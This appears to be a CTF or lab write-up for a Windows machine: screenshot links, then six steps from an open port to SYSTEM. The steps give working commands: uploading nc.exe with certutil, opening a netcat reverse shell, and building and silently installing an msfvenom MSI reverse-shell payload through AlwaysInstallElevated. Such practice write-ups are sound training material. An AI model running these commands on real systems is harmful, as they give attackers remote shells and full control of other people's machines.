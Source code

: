 ![image](https://github.com/user-attachments/assets/8b4f86b1-3dfa-4cfa-97b6-ba52c58bef81)
![image](https://github.com/user-attachments/assets/286a1850-1e75-4e0a-99ca-d021ed51e553)
![image](https://github.com/user-attachments/assets/c63d709d-90ec-4937-b874-ab587896a60c)
![image](https://github.com/user-attachments/assets/46c44e87-e8cd-4c16-a4ec-3165679990c7)
![image](https://github.com/user-attachments/assets/41fc7f6f-95a7-43ca-9190-b7abdeee9ba8)
![image](https://github.com/user-attachments/assets/2bb010d7-0f3a-4029-b12c-e364fb51d086)
![image](https://github.com/user-attachments/assets/e30a4da5-e389-4b3c-baa3-8075c28e2042)
![image](https://github.com/user-attachments/assets/9ff92a97-94ce-4769-90c1-816fa60fa2e2)
![image](https://github.com/user-attachments/assets/64733c63-df08-4390-8681-47293306e423)
![image](https://github.com/user-attachments/assets/ad493d95-80e2-4337-89b8-b2fe47740e8d)

![image](https://github.com/user-attachments/assets/f6757442-6d12-4991-a8cc-82e2782254e5)

1. port 61777 open

2. certutil upload nc.exe, C:/Users/Public vs C:\Users\Public (not work)

3. C:/Users/Public/nc.exe IP PORT -e cmd --> get reverse shell, low privilege user

4. winPEAS, AlwaysInstallElevated set to 1

5. msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=Port -f msi -o shell.msi

   (msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=Port -a x64 --platform Windows -f msi -o evil.msi)

6. Run MSI payload: .\shell.msi  OR msiexec /quiet /qn /i shell.msi   --> get reverse shell, SYSTEM
